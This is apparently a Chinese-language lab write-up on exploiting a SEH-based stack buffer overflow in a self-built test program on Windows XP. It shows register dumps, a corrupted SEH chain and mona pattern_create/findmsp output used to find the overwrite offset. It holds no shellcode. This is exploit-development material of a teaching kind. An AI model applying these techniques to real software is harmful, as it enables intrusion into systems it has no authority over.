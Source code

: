 char buffer[500]是为了开辟足够大的空间

程序运行后

```
EAX 7EFEFEFE
ECX 0012FC94 ASCII "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
EDX 41414141
EBX 7FFD6000
ESP 0012FBA4
EBP 0012FE08
ESI 004261A9 aaaa.004261A9
EDI 00130000 ASCII "Actx "
EIP 004013D1 aaaa.004013D1
C 0  ES 0023 32bit 0(FFFFFFFF)
P 1  CS 001B 32bit 0(FFFFFFFF)
A 0  SS 0023 32bit 0(FFFFFFFF)
Z 1  DS 0023 32bit 0(FFFFFFFF)
S 0  FS 003B 32bit 7FFDF000(FFF)
T 0  GS 0000 NULL
D 0
O 0  LastErr ERROR_SUCCESS (00000000)
EFL 00010246 (NO,NB,E,BE,NS,PE,GE,LE)

----------------------------------------------

SEH chain of main thread
Address    SE handler
0012FDFC   aaaa.004134A0
0012FFB0   41414141
41414141   *** CORRUPT ENTRY ***

```

可以看到seh已经被覆盖,用mona插件计算从缓冲区到seh的距离.  
`!mona pattern_create 300`生成长度为300的随机字符串,替换为shellcode,再溢出一次,执行`!mona findmsp`

```
================================================================================
----------------------------------------------------------------------------------------------------------------------------------
 Module info :
----------------------------------------------------------------------------------------------------------------------------------
 Base       | Top        | Size       | Rebase | SafeSEH | ASLR  | NXCompat | OS Dll | Version, Modulename & Path
----------------------------------------------------------------------------------------------------------------------------------
 0x7c920000 | 0x7c9b3000 | 0x00093000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [ntdll.dll] (C:\WINDOWS\system32\ntdll.dll)
 0x7c800000 | 0x7c91e000 | 0x0011e000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [kernel32.dll] (C:\WINDOWS\system32\kernel32.dll)
 0x00400000 | 0x0042f000 | 0x0002f000 | False  | False   | False |  False   | False  | -1.0- [aaaa.exe] (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
----------------------------------------------------------------------------------------------------------------------------------
[+] Looking for cyclic pattern in memory
    Cyclic pattern (normal) found at 0x0042609c (length 300 bytes)
    Cyclic pattern (normal) found at 0x0012fbe4 (length 300 bytes)
    -  Stack pivot between 96 & 396 bytes needed to land in this pattern
    Cyclic pattern (normal) found at 0x0012fe44 (length 300 bytes)
    -  Stack pivot between 704 & 1004 bytes needed to land in this pattern
    Cyclic pattern (normal) found at 0x0012ff74 (length 140 bytes)
    -  Stack pivot between 1008 & 1148 bytes needed to land in this pattern
    EDX overwritten with normal pattern : 0x37654136 (offset 140)
```